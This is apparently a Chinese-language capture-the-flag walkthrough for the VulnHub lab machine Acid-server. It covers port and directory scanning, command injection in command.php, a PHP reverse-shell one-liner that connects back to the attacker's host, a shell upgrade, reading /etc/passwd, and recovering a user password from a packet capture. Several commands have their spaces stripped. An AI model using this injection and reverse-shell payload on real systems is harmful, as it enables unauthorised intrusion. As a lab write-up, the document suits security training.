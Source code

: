 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### - Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port

`$ nc -l 3333`
用php反彈shell成功，最後payload:

`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`
### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件

`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
